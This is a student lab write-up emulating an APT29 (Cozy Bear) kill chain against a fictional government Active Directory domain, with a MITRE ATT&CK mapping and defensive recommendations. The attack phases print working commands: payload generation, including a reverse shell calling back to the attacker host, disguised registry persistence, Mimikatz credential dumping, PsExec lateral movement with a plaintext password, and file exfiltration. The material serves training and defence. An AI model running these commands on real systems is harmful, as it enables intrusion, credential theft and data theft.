









# APT29 (Cozy Bear) — Full-Chain Threat Emulation

**CESAE Digital** · Network & Cybersecurity Administration · Offensive Simulation Module
**Date:** 19 February 2026 · **Duration:** ~3h55m · **Result:** Full domain compromise

> ⚠️ **Educational exercise only.** Conducted in a fully isolated VirtualBox lab with no internet access. All targets, users, and documents are fictional. No real systems were involved.

---

## Overview

Full kill-chain simulation of APT29 (Cozy Bear / NOBELIUM / Midnight Blizzard), a Russian SVR-linked advanced persistent threat group, against a fictional Portuguese government organisation — the **DGSI** (*Direção-Geral de Sistemas de Informação*).

The exercise covered all phases of the Cyber Kill Chain and every technique was mapped to the MITRE ATT&CK framework. The simulation used tools that functionally replicate APT29's real-world arsenal: Sliver C2 (analogous to SUNBURST/CozyDuke), Gophish (spearphishing infrastructure), and Metasploit with Mimikatz (post-exploitation).

---

## Lab Environment

All machines ran on an isolated VirtualBox Internal Network (`intnet`) — no gateway, no NAT, no internet.

| Machine | OS | IP | Role |
|---|---|---|---|
| ServidorKali | Kali Linux 2024 | 10.0.0.3 | Attacker / C2 |
| DC01 | Windows Server 2016 | 10.0.0.1 | Domain Controller (dgsi.local) |
| WS01 | Windows 10 Pro | 10.0.0.2 | Victim Workstation |

**Active Directory domain:** `dgsi.local`

| User | Role | Privileges |
|---|---|---|
| m.santos | Systems Director | Domain Admin |
| j.ferreira | IT Technician | Standard user |
| a.costa | Administrative Assistant | Standard user + Local Admin on WS01 |

**SMB Shares on DC01:**
- `\\DC01\Confidencial` — restricted to Domain Admins (cloud migration plan, internal credentials, classified meeting minutes)
- `\\DC01\Publico` — accessible to all

---

## Tools

| Tool | Version | Role |
|---|---|---|
| Sliver C2 | v1.7.1 | Command & Control — persistent sessions over HTTP |
| Metasploit Framework | v6.4 | Post-exploitation, privilege escalation, lateral movement |
| Gophish | v0.12.1 | Phishing campaign management and credential harvesting |
| Mimikatz (Kiwi module) | v2.2.0 | LSASS memory dump, NTLM hash extraction |
| msfvenom | (Metasploit) | Meterpreter payload generation |
| Python HTTP Server | — | Payload delivery (port 8888) and phishing page (port 8081) |

---

## MITRE ATT&CK Coverage

| ID | Technique | Phase | Simulated |
|---|---|---|---|
| T1566.002 | Phishing: Spearphishing Link | Initial Access | ✅ |
| T1204.002 | User Execution: Malicious File | Execution | ✅ |
| T1071.001 | Application Layer Protocol: Web | C2 | ✅ |
| T1547.001 | Boot/Logon Autostart: Registry Run Keys | Persistence | ✅ |
| T1087.002 | Account Discovery: Domain Account | Discovery | ✅ |
| T1018 | Remote System Discovery | Discovery | ✅ |
| T1135 | Network Share Discovery | Discovery | ✅ |
| T1134 | Access Token Manipulation | Privilege Escalation | ✅ |
| T1003.001 | OS Credential Dumping: LSASS Memory | Credential Access | ✅ |
| T1021.002 | Remote Services: SMB/Windows Admin Shares | Lateral Movement | ✅ |
| T1005 | Data from Local System | Collection | ✅ |
| T1039 | Data from Network Shared Drive | Collection | ✅ |
| T1041 | Exfiltration Over C2 Channel | Exfiltration | ✅ |

---

## Attack Execution

### Phase 1 — Initial Access · `T1566.002`

A phishing landing page was created using Gophish, mimicking the DGSI internal services portal (`http://10.0.0.3:8081`). The page requested domain credentials with a fake "session expired" message, targeting `a.costa` — a low-privilege user with Local Admin rights on WS01, typical of APT29's focus on non-technical staff as entry vectors.

The victim was sent a spearphishing email with a link redirecting to the landing page. After submitting credentials, the page redirected to a payload download.



---

### Phase 2 — Execution · `T1204.002`

Two payloads were generated and served via Python HTTP server (port 8888):

**payload.exe** — Sliver implant (persistent C2 session):
```
generate --http 10.0.0.3 --os windows --arch amd64 --format exe --save /home/kali/payload.exe --name dgsi_session
```

**update.exe** — Meterpreter reverse shell (privilege escalation):
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.3 LPORT=6666 -f exe -o /home/kali/update.exe
```

`a.costa` downloaded and executed `payload.exe` on WS01, establishing a persistent Sliver session:
```
[*] Session 000a2fd7 dgsi_session - 10.0.0.2:49719 (DESKTOP-UOA5FB8) — 19 Feb 2026 21:35:30 WET
```





---

### Phase 3 — Persistence · `T1547.001`

The payload was copied to a discrete location and registered as a Run key entry disguised as a Windows update:

```
upload /home/kali/payload.exe "C:\Users\a.costa\AppData\Roaming\Microsoft\WindowsUpdate.exe"

reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v WindowsSecurityUpdate /t REG_SZ /d "C:\Users\a.costa\AppData\Roaming\Microsoft\WindowsUpdate.exe" /f
```

Registry key confirmed in `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` — payload survives reboots.







---

### Phase 4 — Discovery · `T1087.002, T1018, T1135`

AD environment enumerated via remote shell through the Sliver session:

```
net group "Domain Admins" /domain    → Administrator, m.santos
net group "Domain Users" /domain     → a.costa, j.ferreira, m.santos, krbtgt
nltest /dclist:dgsi.local            → DC01.dgsi.local [PDC]
net view \\DC01                      → Confidencial, Publico, NETLOGON, SYSVOL
dir \\DC01\Confidencial              → Access Denied (a.costa lacks permissions)
```

`\\DC01\Confidencial` confirmed as a high-value target requiring Domain Admin access — motivating privilege escalation.



---

### Phase 5 — Privilege Escalation · `T1134`

`update.exe` (Meterpreter) was executed with elevated privileges (Run as Administrator) on WS01. Named Pipe Impersonation was used to escalate to `NT AUTHORITY\SYSTEM`:

```
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

Full SYSTEM access on WS01 achieved.

---

### Phase 6 — Credential Access · `T1003.001`

With SYSTEM privileges, the Kiwi (Mimikatz) module was loaded and LSASS memory was dumped:

```
meterpreter > load kiwi
meterpreter > kiwi_cmd sekurlsa::logonpasswords
```

NTLM hashes extracted for two domain users who had authenticated on WS01:

| User | Privilege | NTLM Hash |
|---|---|---|
| a.costa | Standard + Local Admin | a549233c2b024397b62c310370545a7e |
| m.santos | **Domain Admin** | 09d8349aac1e6fa269802df2b8bd8b2d |

The `m.santos` Domain Admin hash is the critical pivot point of the simulation.

---

### Phase 7 — Lateral Movement · `T1021.002`

Using `m.santos` Domain Admin credentials obtained from Mimikatz, PsExec was used to authenticate to DC01 over SMB and deploy a Meterpreter session:

```
use exploit/windows/smb/psexec
set RHOST 10.0.0.1
set SMBDomain DGSI
set SMBUser m.santos
set SMBPass DGsi2025!Pass
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run
```

Session established at 22:59:28 with immediate `NT AUTHORITY\SYSTEM` on DC01:
```
meterpreter > sysinfo  → Computer: DC01, OS: Windows Server 2016, Domain: DGSI
meterpreter > getuid   → Server username: NT AUTHORITY\SYSTEM
```



---

### Phase 8 — Collection & Exfiltration · `T1005, T1039, T1041`

**From DC01 `\\Confidencial` share** (classified government documents):
```
download C:\Shares\Confidencial\Plano_Migracao_Cloud_2025_CONFIDENCIAL.txt
download C:\Shares\Confidencial\credenciais_sistemas_internos.txt
download C:\Shares\Confidencial\Ata_Reuniao_Ministerial_Jan2025.txt
```

**From WS01 `a.costa` desktop** (personal files):
```
download "C:\Users\a.costa\Desktop\contactos_ministeriais.txt"
download "C:\Users\a.costa\Desktop\notas_pessoais.txt"
```

All 5 files exfiltrated to `/home/kali/exfil/` via the C2 channel.

 Total: 1.5 KB — minimal footprint consistent with APT29's selective, low-volume exfiltration approach.

---

## Attack Timeline

| Time (WET) | Event | ATT&CK |
|---|---|---|
| ~19:31 | Gophish phishing campaign initiated | Preparation |
| ~21:32 | Sliver payload generated | T1587.001 |
| ~21:35 | Sliver C2 session established on WS01 | T1071.001 |
| ~21:39 | Persistence via Registry Run Key | T1547.001 |
| ~21:46 | Active Directory enumeration | T1087, T1018, T1135 |
| ~22:44 | Privilege escalation → NT AUTHORITY\SYSTEM | T1134 |
| ~22:44 | Mimikatz — Domain Admin NTLM hash extracted | T1003.001 |
| ~22:59 | Lateral movement PsExec → DC01 | T1021.002 |
| ~23:00 | Confidential documents exfiltrated from DC01 | T1039, T1041 |
| ~23:26 | Personal files exfiltrated from WS01 | T1005, T1041 |

**Total duration: ~3h55m** (19:31 → 23:26)

---

## Defensive Recommendations

### Against Phishing (T1566)
- Email filtering with URL and attachment analysis
- Multi-Factor Authentication on all exposed services
- Ongoing security awareness training

### Against Credential Dumping (T1003)
- Enable Credential Guard on Windows 10/11 (protects LSASS memory)
- Add privileged accounts to Protected Users Security Group
- Monitor LSASS access via Sysmon (Event ID 10)

### Against Lateral Movement (T1021)
- Implement Tiered Administration model (separate admin accounts per tier)
- Restrict remote admin access via GPO (deny network logon for local admins)
- Network segmentation between workstations and servers

### Against Persistence (T1547)
- Monitor Run/RunOnce registry keys via EDR or Sysmon
- Application whitelisting (AppLocker / WDAC) to block unauthorised binaries
- Restrict write access to `AppData\Roaming` via GPO

### Detection & Monitoring
- SIEM with correlation rules for AD authentication events (Event IDs 4624, 4672, 4688)
- Anomaly detection on HTTP traffic for C2 communication patterns
- Alerts on privileged account authentication from workstations

---

## Key Takeaways

The simulation demonstrated how a single low-privilege user (`a.costa`) with Local Admin rights and no EDR on the workstation is sufficient for full domain compromise. The absence of MFA, network segmentation, and LSASS protection were the critical failure points. Domain Admin credential reuse across workstations provided the lateral movement path.

The exercise validated the functional similarity between Sliver C2 and APT29's real implants (SUNBURST, CozyDuke) in terms of HTTP-based persistent communication and low detection footprint.

---

## References

1. MITRE ATT&CK — APT29 (Group G0016): https://attack.mitre.org/groups/G0016/
2. NCSC UK (2020). "Advisory: APT29 targets COVID-19 vaccine development."
3. CISA (2024). "SVR Cyber Actors Adapt Tactics for Initial Cloud Access." AA24-057A.
4. Mandiant (2022). "Assembling the Russian Nesting Doll: UNC2452 Merged into APT29."
5. Zscaler ThreatLabz (2024). "WINELOADER Analysis — European Diplomats Targeted by APT29."
6. BishopFox — Sliver C2 Framework: https://github.com/BishopFox/sliver
7. Rapid7 — Metasploit Framework: https://www.metasploit.com/
8. Gophish — Open Source Phishing Framework: https://getgophish.com/

---

## Disclaimer

This project was conducted exclusively in an isolated, controlled lab environment as part of the **CESAE Digital Network & Cybersecurity Administration** course (Offensive Simulation module). All target systems, user accounts, organisations, and documents are entirely fictional. No real networks, systems, or individuals were involved or affected. This documentation is intended solely for educational and portfolio purposes.

---

*Jorge Moreira · [Portfolio](https://jorge-moreira-portfolio.vercel.app) · [LinkedIn](https://linkedin.com/in/jormoreira)*
